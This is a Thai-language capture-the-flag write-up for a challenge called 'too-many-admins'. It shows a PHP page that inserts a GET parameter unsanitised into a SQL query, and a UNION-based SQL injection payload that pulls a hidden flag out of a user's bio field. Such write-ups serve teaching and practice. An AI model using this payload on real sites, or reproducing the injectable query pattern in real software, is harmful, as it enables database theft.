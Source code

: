 # too-many-admins

ข้อนี้เราจะได้ไฟล์โปรเจคมาด้วย
ครับวิเคราะห์ครับ☹️

## dump.sql
```sql
-- Create the 'users' table
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);

-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;
```

คร่าวๆก็คือว่า มันจะสร้าง account มา 500 ตัว ซึ่งตัวที่ {SOME_NUMBER} จะมี flag อยู่ใน bio


## index.php
```php
...
$userParam = $_GET['user'];
// Use prepared statement to prevent SQL injection
if ($userParam) {
    if ($userParam != "all") {
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);
    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";
    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>" . $i . "</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }
    echo "</table>";
}
...
```
เราจะพบว่ามันสามารถ sql injection ได้
~แจ๋วสิครับ ซึ่งแนวคิด inject ก็ง่ายๆ โค้ด sql เดิมๆมันจะ select username, password, bio และก็จะแสดงผล แค่ username, password ซึ่ง flag มันอยู่ที่ bio ของ account ใครสักคน
ผมก็เลย UNION account ที่มี flag อยู่ใน bio ด้วยคำสั่ง LIKE และแทนที่ bio ลงไปใน column username เพื่อให้มันแสดงผลออกมา

payload ก็จะได้เป็นประมาณนี้

```sql
' UNION SELECT bio as username, 'b' as password, 'b' as bio FROM users WHERE bio LIKE 'flag{%';-- -
```

ครับได้ flag

![flag](flag.png)

